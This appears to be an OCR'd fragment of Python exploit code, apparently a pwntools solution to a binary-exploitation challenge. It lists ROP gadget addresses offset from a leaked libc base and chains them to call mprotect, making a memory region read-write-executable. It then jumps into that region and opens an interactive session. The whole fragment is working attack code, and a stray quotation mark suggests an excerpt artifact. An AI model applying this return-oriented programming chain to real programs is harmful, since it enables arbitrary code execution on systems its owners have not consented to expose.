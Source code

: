 ```python
0x0000000000026b72 : pop rdi ; ret
0x00000000001626d5 : pop rax ; pop rdx ; pop rbx ; ret
0x0000000000027529 : pop rsi ; ret
'''
rop = p64(0x00000000001626d5 + leak_libc) + p64(0) + p64(7) + p64(0)
rop += p64(0x0000000000026b72 + leak_libc) + p64(0x100000)
rop += p64(0x0000000000027529 + leak_libc) + p64(0x1000)
rop += p64(leak_libc + l.symbols['mprotect'])
rop += p64(0x100020)

p.sendline(rop)
p.interactive()
```